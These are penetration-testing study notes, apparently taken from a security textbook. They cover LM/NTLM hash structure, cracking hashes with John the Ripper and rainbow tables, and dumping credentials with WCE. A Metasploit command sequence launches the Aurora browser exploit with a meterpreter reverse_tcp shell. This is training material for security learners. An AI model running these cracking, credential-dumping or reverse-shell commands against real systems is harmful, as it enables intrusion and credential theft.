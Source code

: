 **hashing algorithms**
LM vs. NTLM Hashing Algorithms

    #USERNAME:USERID:LMHASH:NTLMHASH
    Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
    Georgia Weidman:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c

- LM hashes are truncated to 14 characters
- passwords are converted to all UPPERCASE
- passwords less than 14 characters are null-padded to 14 characters
- the 14 characters are broken into two 7 character passwords that are hashed separately
- Next, the password splits are used to encrypt KGS!@#$% with 3des

Cracking a LM password does not tell you the case of the letters used in the password, it will result in PASSWORD123 for example.
Now whether it is Password123 or PASSword123, the story doesn't tell yet.
You must use the fourth field from the password hash collected previously.

JTR

    root@kali# cat linuxpasswords.txt
    georgia:$1$CNp3mty6$lRWcT0/PVYpDKwyaWWkSg/:15640:0:99999:7:::
    #the $1 field in the hash indicates MD5
    john linuxpasswords.txt --wordlist=passwordfile.txt


Note for rainbow tables: MD5 hash for 1-9 character passwords for lowercase and numbers reach 80GB.
hint: for LM, the rainbow table is 32GB

You can download pregenerated sets of hashes from http://project-rainbowcrack.com/table.htm. The tool Rcrack in Kali can be used to sift through the rainbow tables for the correct plaintext.

Why bother cracking when a tool can give you the password you're looking for. that's what WCE.exe does.

    C:\wce.exe -w
    georgia\HOSTNAME:password
    #You can download the latest version of WCE from http://www.ampliasecurity.com/research/wcefaq.html.
    
## Chapter 10 - Client-side exploitation 

WindowsXP client side attack

    msf > use exploit/windows/browser/ms10_002_aurora
    set SRVHOST 192.168.20.123
    set SRVPORT 80
    set URIPATH aurora
    set payload windows/meterpreter/reverse_tcp
    set LHOST 192.168.20.123
    exploit
    jobs
    kill 0
    
The book contains client side exploits such as Java, PDF, winamp.

## Chapter 11 - Social Engineering
    
Check out TrustedSec's social engineer toolkit: setoolkit

## Chapter 12 - Bypassing Antivirus Applications AV evasion


